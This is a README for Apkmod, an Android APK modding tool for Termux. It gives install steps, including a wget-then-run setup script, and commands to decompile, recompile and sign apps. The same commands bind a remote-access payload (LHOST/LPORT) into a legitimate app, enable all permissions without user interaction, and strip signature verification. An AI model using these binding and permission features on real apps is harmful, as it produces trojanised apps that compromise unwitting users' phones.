 # Apkmod v4.1
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `sh setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d -i /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r -i /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s -i /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b -i /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Use `-V` to enable verbose output
6. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
7. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
8. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
9. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm -i /path/to/binded.apk -o mybinded.apk`
10. `apkmod --to-java -i /path/to/in.apk -o outfolder` will decompile dex to java. Input can be __[.apk,.dex,.zip]__
11. Now you can use a optional option `-a` to use __aapt__ for __binding__ and __recompiling__. Why aapt ? Because some apps can't recompile with __aapt2__ but __aapt__ can do it. But I can't drop __aapt2__ support because some apps can't recompile with __aapt__ so first recompile or bind without __aapt__ (`-a`) then if you failed then try with __aapt__. For example `apkmod -a -b -i /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444` will use `aapt` otherwise `aapt2`.
12. To change App name use `--appname` with `-i`. For example `apkmod --appname="New App Name" -i /path/to/in.apk -o /path/to/out.apk`
13. To remove/kill signature verification of app , `apkmod --signature-bypass --killer=k2 -i /path/to/in.apk -o /path/to/out.apk`. There are two version available of signature killer , one is k1 and second one is k2, you will have to specify version like `--killer=k1` or `--killer=k2`.
### Size Comparision (Termux)
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

#### You can join me on telegram also 
https://t.me/hax4us_group
